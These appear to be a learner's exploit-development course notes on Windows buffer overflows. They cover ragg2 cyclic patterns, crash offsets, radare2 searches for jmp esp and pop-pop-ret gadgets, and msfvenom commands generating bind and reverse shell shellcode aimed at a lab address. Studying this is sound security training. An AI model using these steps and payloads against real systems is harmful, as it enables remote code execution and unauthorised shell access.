 # ED308.1-3
* ragg2 command: ragg2 -P 3000 -r -a x86 > pattern.bin
* v1 Crash location: 4b41384b: K8AK (index: 2007)
* v3 Crash location: 0x00dbfa19      624141: bAA (index: 82)
* Shellcode: msfvenom -a x86 --platform Windows -p windows/shell_bind_tcp -b '\x00' LPORT=4444 > sc.bin
# ED308.4
* Crash location: 416e4d41 (AMnA): 2312
* Local: python vs-fuzz3.py 192.168.56.103 sc.bin

# ED309
* Debruijn pattern: ragg2 -P 3000 -f python > debruijn.py
* Check offset of hex: ragg2 -q 0x4b41384b
Little endian: 2006
Big endian: -1
* Raw shellcode: ragg2 -P 3000 -r -o debruijn.bin
* Search modifier: e search.in=??
* Search in executable memory: e search.in=dbg.maps.x
* Search in:specific range:
[0xfffffffffffff000]> e search.from=0x0000000062501000
[0xfffffffffffff000]> e search.to=0x0000000062502000
[0xfffffffffffff000]> /a jmp esp
Searching 2 bytes in [0x62501000-0x62502000]
hits: 9
0x625011af hit18_0 ffe4
0x625011bb hit18_1 ffe4
0x625011c7 hit18_2 ffe4
0x625011d3 hit18_3 ffe4
0x625011df hit18_4 ffe4
0x625011eb hit18_5 ffe4
0x625011f7 hit18_6 ffe4
0x62501203 hit18_7 ffe4
0x62501205 hit18_8 ffe4

Search rop gadget syntax: "/R pop eax;ret" 

#ED319
Search pop,pop,ret with r2:
r2 search: "/R/ pop *;pop *;ret"

Shellcode cmd (made full alphanumeric bc i am cool):
msfvenom -b '\x00' -p windows/shell_reverse_tcp -f python -e x86/alpha_mixed LHOST=192.168.56.1 LPORT=4444 > shellcode.py


